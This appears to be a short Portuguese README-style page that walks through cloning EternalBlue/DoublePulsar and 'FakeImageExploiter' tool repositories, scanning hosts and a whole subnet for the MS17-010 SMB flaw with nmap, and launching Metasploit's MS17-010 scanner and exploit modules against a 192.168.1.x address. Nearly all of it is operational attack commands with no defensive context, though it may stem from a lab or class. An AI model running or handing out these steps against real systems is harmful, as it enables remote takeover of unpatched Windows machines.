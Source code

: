git clone https://github.com/vaamonde/nmap-nse-scripts
 
git clone https://github.com/vaamonde/exploit

git clone https://github.com/vaamonde/Eternalblue-Doublepulsar-Metasploit

git clone https://github.com/vaamonde/FakeImageExploiter

Verificar versão do NMAP:<br>	nmap --version<br>
				man nmap<br>
							
nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse localhost<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.0/24<br>

nmap -d -sC -p445 --open --max-hostgroup 3 --script nmap-nse-scripts/scripts/smb-vuln-ms17-010.nse 192.168.1.150<br>

Atualizar o Metasploit:		msfupdate<br>
Acessar o Metasploit:		msfconsole<br>
Acessar o Modo Scan:<br>		use auxiliary/scanner/smb/smb_ms17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
							
Acessar o modo Exploit:	<br>	use exploit/ms17_010/ms_17_010<br>
				show options<br>
				set rhosts 192.168.1.1<br>
				exploit<br>
